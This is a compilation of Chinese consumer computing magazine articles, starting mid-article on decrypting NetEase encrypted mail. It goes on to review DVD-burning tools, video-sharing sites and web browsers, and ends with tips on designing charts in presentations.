你可以以转发的形式，将该封邮件转发到你网易的邮箱中，在页面中输入密码解密，就可以获得所需的邮件内容了。由于126邮箱的申请过程特别简单，不需要冗长注册信息填写，因此，即使你没有网易邮箱，为了获取自己需要的密件，临时注册一个126邮箱也只是几秒钟的事情。

## 方法二：将邮件上传至网易邮件解密中心进行解密

1.  在QQ邮箱的收件箱中，打开加密邮件，在下方显示所有附件，在每个附件前点“下载”，一个一个保存到桌面上。（注意：不能点“全部下载”，若点击“全部下载”，上传时无法成功解密。）
2.  再回到刚才的加密邮件提示区域，点“网易邮件解密中心”，进入邮件解密中心。
3.  在邮件解密中心中，点“上传加密附件”，选择已保存在桌面上的附件（如图）。
4.  把所有的附件都上传后，点击“已传完”，再输入密码，点“确定”。
5.  在解密成功的页面右侧，点“打包下载已解密文件”，保存在桌面后，可直接以网页方式打开邮件。



(文/向可)

# 先预测 解压工作不跑冤枉路

小李家的数字电视有USB接口，可以直接支持播放流行格式的电影。这不，小李正准备用自己的8GB优盘去小红那里拷贝一部刚刚下载到的高清大片。小红刚下的大片是存放在一个RAR压缩包中的，文件大小是7.4GB。由于小李的电视机不支持直接播放压缩包里的视频文件，于是小李只能直接用解压到优盘的方法，将该电影解压拷贝带走。但是，十几分钟后，问题发生了，系统报告说优盘空间不够，前功尽弃！

其实，如果小李提前估计一下压缩包解压后的文件大小是否符合优盘的容量，那么就不会有这种悲剧发生了。

第一步：打开WinRAR窗口，选择要解压的压缩文件包，单击工具栏上的“信息”按钮。

第二步：在打开窗口中，WinRAR会给出生成这个压缩包时所用的压缩率、压缩包大小和原始文件总大小等信息。注意，其中的“文件总大小”后面的数值就是文件未压缩前占用磁盘空间的数值。如果这个数值大于你的优盘的可用空间，那么你就不要去拷贝了，想办法腾出更大的空间或者找空间更大的存储设备吧。

小提示：
“信息”按钮对于你查看比较大的压缩文件中到底包含多大的文件或文件夹非常有用。反过来，如果你想把某些文件或文件夹压缩成压缩包拷贝到移动设备或传到网上，但担心压缩包太大，也可以先选择这些文件，然后用“信息”按钮来“估计”一下将来生成的压缩包的大小，看看是否适合拷贝或上传（如图）。



(文/小蚊子)## 从手机视频到DVD大片——2011谁是最给力的视频转换王

如今手机（甚至数码相机）基本上也都有拍摄视频的功能了，网络上不少精彩的视频，就是通过手机拍摄出来的。不过手机存储量有限，我们总不可能将这些视频一直保存在手机中吧，所以，将手机视频刻录成DVD光盘，无疑是一个非常好的解决方案：既解决了手机存储的问题，又方便我们在DVD机上欣赏手机拍摄出的“大片”。

但是手机视频一般是MP4格式，将手机视频转换刻录成DVD，就必须借助一些软件工具来完成。本期我们就对4款流行的视频转换刻录DVD工具进行详细评测，供大家选择参考。

### 【参评软件】

对于初选软件，我们尽量以免费、好用、中文界面为主要衡量标准。当然，一些好的共享软件，及国外的软件，也会适当考虑进来。

- 曦力DVD视频制作专家：http://www.xilisoft.com.cn/xcl-dvd-creator.html
- 影视光盘制作专家：http://17rd.com/products/all-in-one
- Sothink HD Movie Maker: http://www.sothinkmedia.com/download/hdmm.zip
- Windows DVD Maker: Windows Vista/7系统自带。注意：Windows Vista/7家庭高级版、旗舰版才有Windows DVD Maker。

### 【测评项目】

- ★支持视频格式
由于获取的视频格式不尽相同，因此DVD刻录工具支持导入的视频格式越多，那么使用时就越方便，整合成DVD的能力自然也就越强。
- ★转换刻录时间
转换、刻录的用时长短也是重要的衡量指标。通过对5个不同格式、不同画面尺寸的视频（MP4、RMVB、FLV、WMV、MPG）进行操作，看哪款软件效率最高。
- ★其他功能
主要考查各款软件的附加功能，如：操作简易度、是否支持视频的裁剪、是否能编辑播放菜单等等，用得方便。

### 【测试点评】

#### 曦力DVD视频制作专家

作为一款国外的免费软件，曦力DVD视频制作专家的表现相当给力。导入的视频格式多，MP4、3GP、FLV、RMVB等尽在其中，在刻录光盘时可设置CPU的使用率。另外DVD菜单模板也非常丰富，是名副其实的DVD视频制作专家。曦力DVD视频制作专家的一个特色，就是它可以对添加的视频进行后期裁剪编辑。

- ★优势：后期编辑功能比较全面。
- ★劣势：缺少视频转场特效，全而不精。
- ★适用人群：白领、教师等电脑操作熟练用户。

**特色功能1：添加字幕**

打开工具后，直接将要刻录的视频拖放到窗口中。如果影片有同步字幕，则选中该影片，然后单击工具栏上的“字幕”按钮，再单击“+”按钮选择字幕文件。在下方还可以设置字幕的语言、位置等，尽量不要遮挡画面。单击“T”按钮可以修改字幕的字体字号。最后单击“应用”按钮即可。

**特色功能2：设置CPU，工作刻录两不误**

如果要边用电脑边刻录，则可以降低CPU的占用率，以避免耽误工作。单击CPU后的“设置”按钮，选择“使用最少的内核进行转换”，这样刻录光盘时时间会稍长，但是基本上不会影响工作。

**特色功能3：一键打造精彩视频**

曦力DVD视频制作专家中的DVD菜单模板也非常丰富，并且可以自定义菜单模板，非常给力。单击“菜单编辑”按钮，在这里有36种菜单模板供选择，我们还可以根据需要选择菜单背景音乐、背景图片、开场影片、菜单循环播放时间等，最后单击“确定”按钮就可以啦。

#### 影视光盘制作专家

影视光盘制作专家采用向导式操作，每个选项后面都有详细的说明，非常适合初学者使用。DVD菜单也可以进行个性化编辑。

- ★优势：简单易用，步步有提示。
- ★劣势：共享版只能刻录3张光盘。
- ★适用人群：电脑盲、中老年用户。

**特色功能：傻瓜也做刻**

对于普通的家庭用户来说，电脑操作水平并不是太高。因此在刻录光盘时，最期待的就是有一个“老师”手把手教。影视光盘专家采用向导操作模式，很好地辅助普通用户完成刻录。打开影视光盘制作专家，选择“DVD”，单击“下一步”，这里共需6步就可以刻录一张DVD影视光盘，每一步的各种参数设置，都有详细的说明。用户无需任何专业知识，只要根据提示进行操作，即可轻松刻录出一张个性化的DVD光盘。

#### Sothink HD Movie Maker

Sothink HD Movie Maker非常简洁，功能也较单一，不过由于是英文界面，普通用户反而不容易上手。它最大的特色就是可以刻录高清DVD光盘、蓝光光盘。

- ★优势：可刻录蓝光高清视频光盘。
- ★劣势：英文界面，功能很单一。
- ★适用人群：用于蓝光刻录机的用户。

**特色功能：蓝光刻录**

对于某些拥有蓝光刻录机的朋友来说，将电脑中的海量高清影片刻成蓝光影视碟，无疑是一件惬意的事情。打开Sothink HD Movie Maker，单击Add Files按钮添加高清影片，选中影片，单击Move Up或Move Down可修改影片的排序，这也是光盘中影片的排序。在右侧的Target disk size中选择蓝光光盘的类型，在Video dimension中设置影片的画面尺寸，Video frame rate中设置影片的帧率，最后单击Burn按钮即可刻录光盘啦。

#### Windows DVD Maker

Windows DVD Maker是系统自带的，功能较弱一些。导入的视频格式很少，不过现在的视频格式转换工具很多，因此这并不会成为障碍。它最大的特色是可以将图片、视频快速整合DVD光盘，便于我们整理家中自拍的影像。由于它不支持同时导入5段视频，所以这里没有测试它的转换刻录时间。

- ★优势：系统自带，可将视频图片整合成DVD光盘。
- ★劣势：导入视频格式偏少。
- ★适用人群：电脑水平较高的家庭用户

**特色功能：照片、视频快速合成DVD**

手机和数码相机的普及，使得我们平时总喜欢拿出来东拍拍、西拍拍，日积月累，硬盘塞满了图片和视频。此时就可以使用Windows DVD Maker，快速将照片、视频整合刻录成一张满载回忆的DVD大碟。
启动Windows DVD Maker，单击“添加项目”按钮，添加拍摄的影像和图片，其中图片会自动放置在“放映幻灯片”中，拖动视频可调节播放顺序，双击打开“放映幻灯片”文件夹，这里可以对照片进行重新排序，这个顺序就是播放时的顺序。完成后单击“下一步”按钮准备刻录DVD。
在刻录DVD前，可选择DVD菜单样式，修改菜单文本或者自定义菜单，单击“放映幻灯片”按钮更改幻灯片设置，单击“添加音乐”可以给照片加上背景音乐，在“照片长度”中可设置每张照片播放的时间，“过渡”中可以设置照片之间的转场效果，这里要注意音乐的总时长尽量和照片播放总时长差不多。单击“更改幻灯片放映”按钮返回刻录界面，最后单击“刻录”按钮开始刻录DVD光盘即可。

### 总评

4款工具刻录的DVD音视频质量，基本上差别不大，主要取决于原始的视频的质量。由于将视频刻录成DVD，一般需要重新编码，所以耗费时间会比较长，前2款工具可设置刻录完成后自动关机，在刻录大量视频时，还是比较有用的。

| 软件名称 | 软件性质 | 操作简易度 | 导入视频格式（典型） | 导入视频格式（累计） | 转换刻录时间（秒） | 预览视频 | DVD菜单 | 转换成DVD文件夹 | 保存为ISO镜像 | 刻录完自动操作 |
|---|---|---|---|---|---|---|---|---|---|---|
| 曦力DVD视频制作专家 | 免费 | ★★★★☆ | MP4\3GP\RMVB\FLV\MPG | 25 | 508 | √ | √ | √ | √ | √ |
| 影视光盘制作专家 | 共享 | ★★★★☆ | MP4\3GP\RMVB\FLV\MPG | 18 | 541 | √ | √ | × | × | √ |
| Sothink HD Movie Maker | 共享 | ★★★☆☆ | MP4\3GP\RMVB\MPG | 13 | 620 | √ | × | × | × | × |
| Windows DVD Maker | 免费 | ★★★★☆ | MPG\WMV | 4 | —— | √ | √ | × | × | × |

## 让上网像风一样飞翔

从512K到1M、2M、4M，带宽越来越高，为什么有时浏览网页时还是那么慢？除了访问流量限制、下载软件抢流量、电脑本身配置等原因之外，浏览器解析网页的效率也是很重要的一个原因。

所以选择一款好的浏览器，也可以为上网提速。这里给大家推荐一款号称国内跑得最快的浏览器，360极速浏览器，可从http://chrome.360.cn下载安装。打开极速浏览器之后，首先试试最吃流量的视频网站，比如优酷，果然发现速度比平时快很多，在线看电影流畅多了。

360极速浏览器界面看起来与谷歌浏览器比较相似，确实，这两款浏览器使用了同样的内核。不过比起谷歌浏览器，极速更符合我们的使用习惯，它比谷歌更强的一点是双核，在浏览淘宝、网银等网站时，可自动切换到IE内核，这样就避免打开这些网站时访问失败的现象了。

## 网址云安全，拒恶意网站于千里之外

网上流行的一个新词叫“手贱”，就是指那种一不小心点击了某某按钮、某某链接等。如果你一时“手贱”点击了种植有恶意程序的网页，那就有可能触发嵌入在网页中的木马、病毒等程序，面临丢失账号或者隐私信息等危险。不过在极速浏览器中你尽可放心，一旦点击了这类恶意网站，它就会自动帮你拦截，弹出提示，此时直接点击“关闭此页”就可以躲过一劫啦。如果你迫不得已必须访问此网页的话，可以点击右下角“忽略警告，继续访问”，不过之前最好是做好安全防范措施。

## 微博消息及时知道

新浪微博已成为许多人交流的平台，它的优势是实时互动，微博上一有什么消息，我们马上就能看到。不过前提是你必须已经登录并一直打开微博网页才行。

但是在360极速浏览器中，只要打开http://tinyurl.com/3tna4br进入“360微博提醒(增强版)”页面，点击“安装”，即可在极速浏览器右上角添加一个新浪图标。点击该图标，第一次需要登录（以后就不需要了），以后在上网的过程中，随时点击该图标即可实时查看微博、评论、私信、粉丝等信息，还可以随时写微博，并且不用打开新浪微博网页即可直接操作，非常方便。

当然，这只是极速浏览器大量扩展中的一个，更多有意思的扩展应用，由你来挖掘吧。

> (文/流言)

## 视频分享谁最给力 六大视频网站大比拼

宽带、DC、DV的普及，让我们上网看视频、传视频成为一件简单的事。经过前两年的大量淘汰后，如今能够生存下来的视频网站，都是经过考验的。优酷、土豆等都是专业的视频网站中的佼佼者，而新浪博客、搜狐视频，则很好地将视频融合到其网站中，与博客有机结合，被称之为“播客”。

### 【参评网站】

- 新浪播客：http://v.sina.com.cn
- 搜狐视频：http://tv.sohu.com
- 六间房：http://6.cn
- 土豆网：http://www.tudou.com
- 优酷网：http://www.youku.com
- 酷6网：http://www.ku6.com

### 【测评方法】

本文针对视频共享中的两个主要环节：上传和播放，进行一一测试，让数据说话，用事实证明，谁才是适合您的视频分享网站。

- ★视频上传测试
这里我们是从视频分享者的角度进行评测，包括：支持格式、上传速度、视频大小、视频时长、上传方式（单个上传或批量上传）、审核等方面对它们进行对比。其中上传速度的数据，以同一网络条件下（10M光缆）上传同一个视频为例，测试单位时间内的平均上传速度数值。
点评：批量上传视频、上传超大视频或是断点续传，都需要网站提供的相应工具，如：优酷网需要用Iku爱酷，土豆网需要使用iTudou，通过工具上传更加稳定高效，建议大家安装。一般手机拍摄的视频都是MP4或3GP格式，参测的所有网站都支持直接上传MP4，还是比较贴心的。土豆、优酷可以上传小于10GB的视频，便于上传一些高清视频。

- ★视频播放测试
上传视频到网站，最终目的还是让他人观看，因此播放流畅度、清晰度等非常重要。对于某些视频，观众可能还需要下载备用，是否能够下载也是评测的一部分。
点评：总的来说，在视频观看体验上，新浪播客、搜狐视频、优酷网还是不错的。搜狐视频中有很多高清影片，特别是带中英文字幕的美剧，还是非常值得观看的。虽然所有网站都支持视频搜索，但是优酷网更加智能。六间房、土豆、优酷支持设置浏览权限，便于我们创建自己用户组。下载视频一般需要相应的官方工具，新浪播客、搜狐视频不支持直接下载。

**表一：视频上传测试**

| 网站 | 视频格式（常用） | 视频格式（数量） | 单个视频大小 | 上传速度 | 批量上传 | 断点续传 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 新浪播客 | 3GP\FLV\MP4\RMVB | 24 | <500MB | 1.1MB/S | √ | √ |
| 搜狐视频 | MP4\3GP\RMVB\MPG | 14 | <200MB | 1.8MB/S | √ | √ |
| 六间房 | 3GP\MOV\MP4\MPG | 16 | <300MB | 0.8MB/S | √ | √ |
| 土豆网 | RM\MP4\WMV\FLV | 8 | <10GB | 1.0MB/S | √ | √ |
| 优酷网 | RM\MPG\MP4\3GP | 15 | <10GB | 1.3MB/S | √ | √ |
| 酷6网 | MP4\3GP\RMVB\MP4 | 22 | <500MB | 1.4MB/S | √ | √ |

**表二：视频播放测试**

| 网站 | 播放流畅度 | 画面清晰度 | 播放调节 | 视频下载 | 视频订阅 | 视频搜索 | 浏览权限 | 站外引用 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 新浪播客 | ★★★★★ | ★★★★☆ | √ | × | √ | √ | × | √ |
| 搜狐视频 | ★★★★☆ | ★★★★★ | √ | × | √ | √ | × | √ |
| 六间房 | ★★★☆☆ | ★★★☆☆ | √ | √ | × | √ | √ | √ |
| 土豆网 | ★★★★☆ | ★★★☆☆ | √ | √ | √ | √ | √ | √ |
| 优酷网 | ★★★★☆ | ★★★★☆ | √ | √ | √ | √ | √ | √ |
| 酷6网 | ★★★☆☆ | ★★★☆☆ | × | √ | √ | √ | × | √ |

### 【特色功能】

#### 打造精美视频相册——土豆网

- ★优势：支持制作视频相册，支持上传高清视频。
- ★劣势：添加图片时必须一张一张的添加。
- ★适用情况：制作视频相册。
土豆网支持制作视频相册，它最大的特色是每个相册最多可以上传100张照片，除了上传本机图片，还可以将QQ及网易相册照片直接导入，也可以直接粘贴网络图片的网址。另外可以添加本机音乐或网络Mp3歌曲作为相册配乐，大小不超过5MB。在相册样式上，可以方便地设置文字大小、切换速度、特效以及边框等。
登录土豆网，进入“我的土豆”，单击下方的“我的相册”，然后单击“创建新的相册视频”，在“添加图片”下可以直接上传本机图片，或者导入外部相册。单击“浏览”按钮选择本机上的图片，单击“多添几个”按钮可增加图片，在下方可以给相册加上各种特效。照片选好后单击“选好了，传上去”按钮上传照片，在“添加音乐”中可以给相册配乐，最后单击“保存视频”按钮即可。

#### 在线录制视频——新浪播客

- ★优势：知名门户网站提供的视频分享服务，各方面有保障。
- ★劣势：个性化服务比较少，有些古板。
- ★适用情况：专业人士用来发布视频新闻、资料等。
新浪播客支持在线录制视频，这还是比较贴心的。注册并登录新浪播客，单击“录制”按钮切换页面，此时会自动检测到摄像头，如果没有打开摄像头，单击“重新检测”按钮可启用摄像头，然后单击“录制”按钮就可以进行声情并茂的表白，完成后单击“保存”按钮上传视频到新浪播客中，非常简单。

#### 视频加密真给力——优酷网

- ★优势：上传高清宽屏视频，获得高清宽屏播放体验。
- ★劣势：功能大而全，无鲜明特色。
- ★适用情况：视频爱好者。
优酷网可以将添加的视频加上密码，只有获取密码后才能观看视频，这样可以让我们指定视频给某些观众欣赏。登录优酷网，进入“我的优盘”，单击“我的视频”下的“我上传”，可以看到自己上传的视频。单击“编辑”按钮修改视频信息，选择“设置密码”，然后输入密码，最后单击“确定”按钮即可。这样欣赏该视频时就必须输入密码才能观看；如果添加了优酷好友，还可以选择“仅对好友公开”，这样只有优酷好友才可以观看。

#### 轻松拥有直播间——六间房

- ★优势：在线直播。
- ★劣势：过于花哨。
- ★适用情况：时尚娱乐，视频会议。
六间房也是出道很早的视频分享网站，为了保持自身的竞争力，它的在线直播功能还是非常实用的。我们可以轻松拥有自己的直播间，向粉丝们展示自我。注册账号并登录六间房，单击“在线直播”，选择视频设备和音频设备，单击“确定”按钮即可进入直播状态。在直播过程中还可以与观众互动交流，点歌、送礼物等等。另外还可以设置房间属性、公告等。

#### 用手机看大片——酷6网

- ★优势：可与微博紧密集合，提供了手机版“酷6剧场”等多种工具。
- ★劣势：首页过杂。
- ★适用情况：常用手机观看自拍视频。
酷6剧场是依托酷6网的海量版权内容，为我们奉上的一份视频大餐。它是在酷6视频的基础上单独开发的一款具有强劲功能与超节目量的手机视频客户端软件。它针对性提供影视剧等长视频内容，在产品设计、产品技术和内容等方面，都更加贴近用户使用需求。酷6剧场是比较适合手机用户使用的影视视频观看软件。打开酷6剧场（网址http://www.ku6.com/soft/3g），下载适合自己的手机的客户端，这里包含Andriod、Symbian、iPhone等手机操作系统的客户端。下载安装到手机中，即可通过手机看大片了。
不过提醒大家：手机看大片要多包手机流量，否则话费也会很“给力”的，非常费钱。

#### 引用在线视频——搜狐视频

- ★优势：知名门户网站提供的视频分享服务，各方面有保障。
- ★劣势：个性化服务比较少，有些古板。
- ★适用情况：专业人士用来发布视频新闻、资料等。
有时我们需要将视频网站上的视频引用到其他地方，如各种空间和微博上。这里介绍一下搜狐视频如何快速应用到QQ空间。
首先打开视频播放页面，单击下方的“分享”按钮出现分享网址，单击“Flash地址”后的“复制”复制网址以备用。
登录自己的QQ空间，在撰写日志时，单击“插入视频”出现对话框，切换到“使用网络链接”选项，将复制的视频网址粘贴到“视频地址”中即可。还可以进行更多设置，如选择“自动循环”和“自动播放”、设置视频可见权限等等。最后单击“发表日志”按钮就可以完成视频日志啦。

## 畅游网海 谁主沉浮 10款浏览器终极PK

这年头，上网已是家常便饭了，浏览新闻、查找资料……这些都离不开一种工具——浏览器。而如今网络上各式各样的浏览器，起码有二三十种之多，那么对于我们普通用户来说，究竟该选择哪一款？本期我们选择了10款知名浏览器进行评测，期望能为大家找到一款适合自己的冲浪利器。

表一：本次测试平台

| CPU | 酷睿2四核Q8400@2.66GHz |
| :--- | :--- |
| 内存 | 2GB×2 (三星 DDR3 1333 MHz) |
| 显卡 | Nvidia GeForce G210 (512 MB) |
| 硬盘 | 希捷 ST3750528AS (750 GB) |
| 操作系统 | Windows7旗舰版 (64位) |
| 网络 | 中国电信10m |

## 【参评软件】

参评的前6款浏览器都是以IE为内核的，后4款浏览器则都拥有自己的内核，无需IE都能使用。

-   ★IE 9.0中文版
    http://info.msn.com.cn/ie9
-   ★QQ浏览器
    http://browser.qq.com
-   ★360安全浏览器
    http://se.360.cn
-   ★搜狗高速浏览器
    http://ie.sogou.com
-   ★傲游浏览器
    http://www.maxthon.cn/mx3
-   ★闪游浏览器
    http://www.saayaa.com
-   ★Google Chrome浏览器
    http://www.google.com/chrome
-   ★火狐浏览器
    http://www.firefox.com.cn/download
-   ★Opera浏览器
    http://www.opera.com/download
-   ★Safari5.0
    http://www.apple.com.cn/safari/download

## 【性能比拼】

性能是浏览器的第一生命线，普通的测试并不能真正体现浏览器的性能，如：系统资源占用、网页浏览等。这里我们通过一些专业工具，主要从三个方面进行测试。

JavaScript：目前网络上很多的社交网站、视频共享网站和网页邮件客户端都在很大程度上依赖JavaScript，而正是这些网站往往会给浏览器带来较大的性能负担。Google V8基准测试是Google开发的一款JavaScript测试工具，主要是JavaScript速度的测试。依据浏览器的JavaScript运行效率来衡量浏览器性能。它会载入JavaScript代码，并测试该系统的内核、加密、解密、渲染等速度，平均得分越高表明速度越快 (网址：http://tinyurl.com/32r2lpp)。

Acid 3：测试检测浏览器与Web标准兼容性的主要方法，也是目前行业中最权威的测试。新的网络规范测试标准Acid3在测试标准上更严格更全面，它能测试一个浏览器的DOM Script能力及CSS渲染、SVG等，满分100分 (网址：http://acid3.acidtests.org)。

表二：浏览器性能及兼容性

| 名称 | JavaScript | Acid 3 | Html 5 |
| :--- | :---: | :---: | :---: |
| IE 9.0 | 2062 | 95 | 141 |
| QQ浏览器 | 1732 | 100 | 40 |
| 360安全浏览器 | 2243 | 95 | 140 |
| 搜狗高速浏览器 | 4392 | 100 | 288 |
| 傲游浏览器 | 7733 | 100 | 296 |
| 闪游浏览器 | 1762 | 0 | 41 |
| Google Chrome | 7810 | 100 | 328 |
| 火狐浏览器 | 3550 | 94 | 286 |
| Opera浏览器 | 3351 | 100 | 286 |
| Safari5.0 | 2370 | 100 | 253 |

HTML5：尽管当前HTML5还不算成熟，不过其应用范围已经越来越广，支持HTML5也是衡量一个浏览器是否现代化的标准之一。我们采用HTML5测试网站来了解各浏览器对HTML5各元素的兼容性 (网址：http://html5test.com)。

点评：不难看出，Chrome表现最为出色，傲游紧随其后，QQ浏览器默认情况的“浏览模式”是“极速模式”，无法进行Acid3测试，切换到“智能模式”后，得分为100分。闪游浏览器在Acid3测试时，无法正常进行，因此我们给它打了0分。总的来说，非IE核心的浏览器各项得分比较高。

## 【功能简评】

浏览器的功能是否强大？是否人性化？这是浏览器俘获用户的根本。我们主要从软件界面、启动模式、标签书签、网络同步等方面，全方位对比浏览器功能。

表三：浏览器功能测试

| 名称 | 界面及易用性 | 快速拨号 | 漫游书签 | 翻译 | 隐私浏览 | 垃圾拦截 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| IE 9.0 | ★★★☆☆ | √ | × | × | √ | ★★★☆☆ |
| QQ浏览器 | ★★★★☆ | √ | √ | × | × | ★★★☆☆ |
| 360安全浏览器 | ★★★★☆ | √ | √ | × | √ | ★★★★☆ |
| 搜狗高速浏览器 | ★★★★☆ | √ | √ | × | √ | ★★★☆☆ |
| 傲游浏览器 | ★★★☆☆ | √ | √ | × | √ | ★★★☆☆ |
| 闪游浏览器 | ★★★☆☆ | √ | √ | √ | × | ★☆☆☆☆ |
| Google Chrome | ★★★☆☆ | √ | √ | √ | √ | ★★★★☆ |
| 火狐浏览器 | ★★☆☆☆ | √ | √ | × | √ | ★★★★☆ |
| Opera浏览器 | ★★★☆☆ | √ | √ | × | √ | ★★★★☆ |
| Safari5.0 | ★★★☆☆ | √ | × | × | √ | ★★★★☆ |

点评：总的来说，IE核心的浏览器，本土化较为到位，各有特色，比较贴近用户。非IE核心浏览器中，谷歌浏览器综合表现最为出色。

## 【特色应用】

参评的浏览器都有自己的特色，这也是他们吸引用户的地方。在浏览器日益同质化的今天，特色功能意味着创新，意味着生存。这部分主要是通过实例来展示参评浏览器的特色。

**IE 9.0——快速访问网站**

★优势：Windows系统自带，与系统兼容性好。
★劣势：个性化功能不足。
★适用：办公一族，一般家庭用户。

在IE 9.0中提供了两种快速访问网站的方法，我们可以将常用网站添加到“开始菜单”或“任务栏”，以后要打开该网站就非常方便了。用IE 9.0打开网站后，单击“工具”选择“文件→将网站添加到开始菜单”，这样该网站链接就会出现在“开始”菜单中。拖动网站选项卡至任务栏，即可将网站添加到任务栏上，非常简单。

**QQ浏览器——实用的侧边栏**

★优势：与QQ配合紧密。
★劣势：功能性能都一般。
★适用：经常使用QQ的各种服务的人。

QQ浏览器与QQ紧密相连，通过QQ账号登录浏览器，可以享用腾讯提供的各种在线服务。单击“登录”按钮，用自己的QQ账号登录后，单击侧边栏按钮，即可查看空间动态，也可以查看订阅的股票信息等。

**傲游——随时随地访问备忘录**

★优势：功能全面，使用方便。
★劣势：稳定性还有提高的空间。
★适用：办公一族。

启动傲游后，登录自己的傲游账户。单击左侧的“在线记事本”按钮打开记事本。单击“新建”按钮可以撰写笔记，比如记下一些备忘的内容，然后选择“菜单→数据同步”，就可以将记事本中的内容上传到傲游服务器上。这样在任何地方登录傲游，都能查看你撰写的备忘录了，非常方便。

**搜狗高速浏览器——轻松使用代理服务**

★优势：强大的代理功能。
★劣势：其他功能一般。
★适用：校园等网络环境有限制的一族。

在搜狗浏览器中，提供了代理功能，我们可以通过代理加速上网，或者浏览一些国外网站。选择菜单“工具→网络连接→网络连接设置”，出现对话框，单击“添加”按钮可以添加自己的代理服务器，非常简单。

**火狐浏览器——隐私保护，请勿跟踪我**

★优势：功能强大，插件丰富。
★劣势：易用性稍差。
★适用：喜欢追赶网络新潮应用的网友。

火狐浏览器对隐私保护做得非常到位，特别是“请勿跟踪”功能可以阻止网站追踪我们的个人隐私。单击左上角的Firefox按钮，选择“选项”，切换到“隐私”选项，选择“告诉网站我不希望被跟踪”，即可告诉网站不要收集我们的个人隐私。

**Opera——边浏览边收发邮件**

★优势：浏览速度极快。
★劣势：兼容性差。
★适用：低配置电脑，或者喜欢简洁的人。

Opera内置了电子邮件收发工具，可以接管个人电子邮箱。单击左上角的Opera按钮，选择邮件和聊天帐户，然后单击“添加”按钮，选择“电子邮件”，根据提示输入姓名和邮件等，这样就可以直接在Opera中，一边浏览网页，一边进行收发邮件的操作了。

**Google Chrome——插件助力浏览器**

★优势：浏览速度快，对谷歌的各项服务支持到位。
★劣势：兼容性略差。
★适用：经常使用Gmail等谷歌服务的人，及喜欢尝试新技术的人。

丰富的插件扩展本是Firefox的最大特色，而如今，这一特色渐有被Chrome所超越之势。在Chrome网上应用店中 (https://chrome.google.com/webstore) 可以找到很多Chrome的扩展应用。比如点击左侧“由Google提供”，再点击右侧的“快捷工具 (由Google提供)”，在打开的页面中按提示“安装”此插件，即可为Chrome添加快捷键、网址一键通等多种实用功能。(注意：可能因为服务器不稳定的原因，有时插件无法正常获取。)

## 图表 让报告的数据一目了然

相信你的公司和大多数公司一样，领导早就失去了一字一句看Word文档的耐心，PPT已经成了工作中的最常用的工具，因为这是一个过度传播的社会，外界想传递给我们的信息太多，而我们能记住的很少，我们也想给别人传递很多信息，别人又能记住多少？

里斯和特劳特在《定位》中说，“在我们这个传播过度的社会里，最后的办法是传送极其简单的信息。……你必须把你的信息削尖了，好让它钻进人们的头脑。你必须消除歧义，简化信息，如果想延长它给人留下的印象，还得再简化。”

简化信息的方式之一就是图表，图表能够直观地展示数据，支撑观点。工作学习中，大部分人都会或多或少地用到图表，不管是书面报告还是现场演示，图表都是不可或缺的一个元素。

但问题也随之而来：手里数据一大堆，我该直接用表格还是用图表？图表种类那么多，我该使用哪种类型？类型选好了，怎么才能让图表更好地传递信息？如何能让我的图表看上去更美观一些……

今天我们就以幻灯片(PowerPoint或Keynote)为例，从图表类型的选择、图表设计、图表美化等几个角度，聊聊怎么用好数据图表。

## 精心画“饼”才充饥

有些时候，我们需要展示一组数据的比例或构成，这时候就需要用到饼图(Pie Chart)了。如图1所示，是想要展示全国城镇居民家庭平均每人全年消费性支出各种支出类型的比重。乍看之下，这张饼图没什么大问题，还有什么改进的空间呢？

先给数据由大到小排个序吧，这样我们就能直观看出各个类别所占比重的排序，效果如图2所示。

接下来再看，用的颜色太多，而且，数据类别名称太长，都放在饼图外面，这样显得有点乱。进一步优化一下，就有了如图3所示的效果。

调整之后，我们把数据类别用图例的形式放在旁边，把数据值放到饼图内，这样就显得整洁很多。另外，虽然饼图每块的颜色也都不一样，但是，都是一个色系的，看上去就舒服多了。如果你觉得黑灰色系显得太凝重，也可以换成别的色系。当然，我们可以把它更简化一点，如图4所示的效果。

这种情况只突出了占比例最大的部分，其他信息全部省略。有些专家就认为，饼图最适合用于想特别强调某一个数值的时候，这个值要显著的大于其他值。

当然并不是所有情况下都适合使用饼图，比如在分类太多的情况下，用饼图就不合适了。如图5所示的效果，相信你对这张“饼”没有了丝毫的胃口。

## 高低长短比大小

饼图最适合用来表示比例，不适合用来比较大小。就比较大小来说，相对于饼图的“角度”、“弧度”和“面积”，人们的眼睛对“长度”和“位置”更敏感。因此，柱形图(Bar Chart)成了更好的选择。

如何用好柱形图，让我们来看看高手怎么做。PPT爱好者对Garr Raynolds都不陌生，他是幻灯片演示高手。以一组数据为例，他一步一步地进行了讲解。如图6所示，是原图效果。

这张图看上去问题一大把，细看之下问题还是一大把。首先，背景图片对图表造成了太大的干扰，背景图片不仅五颜六色，而且还动感十足，很是让人眩晕；其次，三维图表在展示效果上会造成一定的视觉误差。顺便说一句，在日常工作中，不提倡用任何一种形式的三维图表；再次，整页幻灯片中没有观点，不知道这个数据要说明什么问题，从标题到图表都是干巴巴的。

于是，Garr针对上述问题进行了初步修改，效果如图7所示。

这么一来，就清爽多了，也直观多了，特别是明确了一个核心观点，就是2007年的数字高于以往任何一年，并超过了5000大关。

接下来就发现图表颜色有些不对头，既然要强调2007年的数据，偏偏其他年份都是彩色而唯独2007年是灰色的，看来还需要调整一下。如图8所示，将2007年的柱形变成暖色调的红色，而其他柱形则变成冷色调的蓝色，这样就更加突出2007年数据；数据标签放到柱形内，使得图表更加整洁；年份的表示方法也进一步简化。至此，这个图表修改完成，观点明确，图表清晰。

有时候，根据版面的要求，或者是在数据类别名称较长、使用柱形图展示效果不好的时候，我们还可以代之以条形图，效果如图9所示。

## 古往今来趋势线

“我国的人口总数在逐年增加”，“这几年公司的某某业务销售业绩下降越来越快了”……你是否也经常需要在报告里表达类似的意思？要表示一段时间内某个数据的发展趋势，线形图无疑是最佳选择，要不怎么说“直线上升”或“直线下降”呢？

来看看我国改革开放以来GDP的发展趋势吧。如图10所示。

开始还比较平稳，后面就是“直线上升”了。那么这张图又有什么问题呢？1.纵坐标轴的刻度单位“0”太多，看着眼晕；2.横坐标轴类别标签过于密集，且显示方向旋转了270°，降低了可读性；3.线性图的“线”过细，不够突出；4.坐标轴和网格线过于突出，干扰读图。

针对上面的问题调整为如图11所示的样子，效果是不是好多了。

